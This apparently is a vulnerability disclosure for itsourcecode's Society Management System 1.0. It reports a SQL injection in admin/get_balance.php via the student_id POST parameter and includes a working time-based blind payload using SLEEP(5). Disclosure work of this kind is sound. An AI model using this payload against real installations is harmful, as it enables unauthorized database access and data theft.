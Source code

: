 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

In the admin/get_balance.php page, there is a SQL injection vulnerability. An attacker can inject SQL statements through the student_id parameter.
<img width="1078" alt="image" src="https://github.com/user-attachments/assets/0e3f7977-4d47-4a38-890c-b1b91311404d">


# Poc
```
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=111231231' AND (SELECT 9827 FROM (SELECT(SLEEP(5)))XYjI) AND 'jqiB'='jqiB
```
